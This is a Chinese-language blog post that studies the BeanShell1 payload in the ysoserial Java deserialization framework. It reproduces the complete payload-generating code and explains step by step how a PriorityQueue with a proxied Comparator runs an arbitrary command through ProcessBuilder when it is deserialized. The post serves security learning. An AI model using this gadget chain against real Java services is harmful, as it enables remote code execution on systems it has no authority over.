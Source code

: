 ```yaml
---
title: Java反序列化框架ysoserial学习
date: 2017-9-17 11:19:00
tags:
- 安全学习
- Java
author: Lin
---
```

## 简介
[ysoserial](https://github.com/frohoff/ysoserial)是github上一个Java反序列化工具框架，它包含常见的Java反序列化类型，包含Jenkins，WebLogic及JBoss等反序列化漏洞的利用Payload，及其生成过程。今天分析的BeanShell1只是其中的一个例子，当中用到很多Java中比较高深的技术，学习反序列化的同时，一并学习下Java。
<!--more-->
## BeanShell1
这个Payload是利用BeanShell实现的，实现过程也比较巧妙。BeanShel是Java的动态脚本解释器，可以让Java项脚本语言一样运行。开始我们的代码分析了，ysoserial可以从Github上clone，我是在Eclipse中编译的。
```
	public class BeanShell1 extends PayloadRunner implements ObjectPayload<PriorityQueue> {

    public PriorityQueue getObject(String command) throws Exception {
	// BeanShell payload
	String payload = "compare(Object foo, Object bar) {new java.lang.ProcessBuilder(new String[]{\"" + command + "\"}).start();return new Integer(1);}";

	// Create Interpreter
	Interpreter i = new Interpreter();

	// Evaluate payload
	i.eval(payload);

	// Create InvocationHandler
	XThis xt = new XThis(i.getNameSpace(), i);
	InvocationHandler handler = (InvocationHandler) Reflections.getField(xt.getClass(), "invocationHandler").get(xt);

	// Create Comparator Proxy
	Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

	// Prepare Trigger Gadget (will call Comparator.compare() during deserialization)
	final PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
	Object[] queue = new Object[] {1,1};
	Reflections.setFieldValue(priorityQueue, "queue", queue);
	Reflections.setFieldValue(priorityQueue, "size", 2);

	return priorityQueue;
    }

    public static void main(final String[] args) throws Exception {
	PayloadRunner.run(BeanShell1.class, args);
    }
}
```

从代码可以看出，BeanShell1继承自PayloadRunner，实现了ObjectPayload接口。它定义了一个函数getObject,这个是接口ObjectPayload要求的，也是整个框架中的重要组成，后面会详细分析。同样还有一个静态的主函数main，作为程序运行的入口。  
PayloadRunner并不是直接接受输入的命令，BeanShell1作为其子类，才是反序列化真正的入口。从代码的追开始看起。
## BeanShell1的main函数
真正的入口在BeanShell1中的main函数中，调用方式为

```
	PayloadRunner.run(BeanShell1.class, args)
```

args就是传入的命令了。BeanShell1是关键。BeanShell1.class的调用是用来获取BeanShell1这个类的运行时类。如果是一个对象实例的话，可以通过object.getClass()来获取。这个方法时定义在Object类中。运行时类Runtime Class是Java中很多黑魔法的开始，也使得Java功能强大的原因之一。这里，我们只需要记住，PayloadRunner.run接受的第1个参数是BeanShell1的运行时类就OK了。
## PayloadRunner.run函数
开始跟踪PayloadRunner.run函数的调用轨迹。

```
public class PayloadRunner {
	public static void run(final Class<? extends ObjectPayload<?>> clazz, final String[] args) throws Exception {
		// ensure payload generation doesn't throw an exception
		byte[] serialized = new ExecCheckingSecurityManager().wrap(new Callable<byte[]>(){
			public byte[] call() throws Exception {
				final String command = args.length > 0 && args[0] != null ? args[0] : "calc.exe";

				System.out.println("generating payload object(s) for command: '" + command + "'");

				ObjectPayload<?> payload = clazz.newInstance();
                final Object objBefore = payload.getObject(command);

				System.out.println("serializing payload");
				byte[] ser = Serializer.serialize(objBefore);
				Utils.releasePayload(payload, objBefore);
                return ser;
		}});

		try {
			System.out.println("deserializing payload");
			final Object objAfter = Deserializer.deserialize(serialized);
		} catch (Exception e) {
			e.printStackTrace();
		}

	}

}
```

从代码中看出这个函数很小，功能很简单，生成了Payload的序列化字节码serialized ，交由Deserializer进行反序列化，触发Payload执行。下面来看具体的生成流程。
### 字节码的生成
* 通过包装函数ExecCheckingSecurityManager了一段代码，为什么要加一个层安全管理，这个现在还不知道。一定有它的原因，随后再学习了。
* 判断传入的args,生成命令字符串。

```
ObjectPayload<?> payload = clazz.newInstance();
final Object objBefore = payload.getObject(command);
```

* 首先通过运行时类，直接获取一个对象实例，然后，调用getObject函数，生成待序列化的对象。  
* getObject函数
getObject函数定义在BeanShell1中，因为BeanShell1实现了ObjectPayload接口，所以一定要定义getObject函数，这也是yso反序列化框架里最最重的一个函数。  
1. 首先生成了payload字符串，也就是要执行的命令，这里可以看到是一个Java的函数的文本形式。
2. 下面生成了一个BeanShell的解释器Interpreter实例，BeanShell是Java的一个工具包，用来以脚本形式来执行Java代码的方式。当然可以把它嵌入到正常的Java代码中去，这就是bsh.Interpreter.
3. 调用实例的eval函数来解析payload，当然解析成功也不会执行，因为是一个函数，而且记着我们现在是getObject中，正在生成payload序列过程中，此时当然不能执行命令了。我们需要的是在反序列化时执行命令。  
可以这样理解，当BeanShell解析过payload后，只是在解析器实例的命名空间中生成了一个函数。我们也知道了，执行命令的关键在于如何触发这个函数的执行。
4. 下面一行，生成了一个XThis实例，代码里的注释告诉我们，这是为了创建一个触发器InovcationHandler，通过查看源码我们知道XThis实例就代表了那段解析过的payload，也就是说生成那个compare函数，就是XThis实例的函数了。

```
InvocationHandler handler = (InvocationHandler) Reflections.getField(xt.getClass(), "invocationHandler").get(xt);
```

这行代码就是链式调用，首先是调用getFileld函数，得到invocationHandler的成员(Field类实例)，通过查看源码，可以知道，XThis对象是有一个公有成员，invocationHandler的，我们知道，一个类的实例的成员，是不能直接访问的，要通过obj.member，这样的形式访问的，这里应该是Java的一个黑魔法之一，可以直接访问一个对象的对象实例。至于这是怎么实现的，后面再研究了。  
返回了这个对象的Field实例后，又调用了Field的get函数，想必这就是返回真正的InvocationHandler 对象了，果不其然，在XThis中，invocationHandler成员的类型正是InvocationHandler接口。
也就是说InvocationHandler在被调用时，会自动调用它的函数invoke。

```
Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);
```

这段代码生成了一比较器代理，用于随后的优先队列。
5. 最后的反序列对象

```
final PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
			Object[] queue = new Object[] {1,1};
			Reflections.setFieldValue(priorityQueue, "queue", queue);
			Reflections.setFieldValue(priorityQueue, "size", 2);
```

剩下的就比较好理解了，生成了一个优先队列，设定它的比较器为刚刚生成的比较器，给它添加了两个对象成员。为什么要添加两个对象呢，因为我们要触发comparator函数，优先队列有两个元素时，会自动触发一次比较。
然后返回这个对象。
### 生成序列码
根据返回的优先队列的对象，进行序列化，生成了序列化字节码，用于后面的反序列化。
### 进行反序列化操作
PayloadRunner.run函数最后对生成的序列化字节码进行反序列化操作。触发命令执行。

## 命令执行的触发流程
最后也时最精彩的部分了，反序列化时，生成了一个优先队列对象，然后恢复这个对象里的数据，因为在生成序列化对象时，我们给它里面塞了两个对象。当它恢复时，它自动执行了comapator代理的invocationHandler，也就执行了BeanShell1中动态添加的方法，从前面流程可以看到，我们定义在这个函数里的命令，也就会得到执行了。  
这也是这个漏洞利用的最巧妙的地方。
## 总结
整个命令执行的过程比较简单，但其中用到几个Java高级技术，还需要进一步学习。
1. Reflections机制，如何把一个对象的成员单独拎出来，可以将由其他对象访问。
2. InvocationHandler接口，一般来说接口是不能实例化的，但在代码中看到了把一个对象转化为接口实例。
3. Java的代理机制。
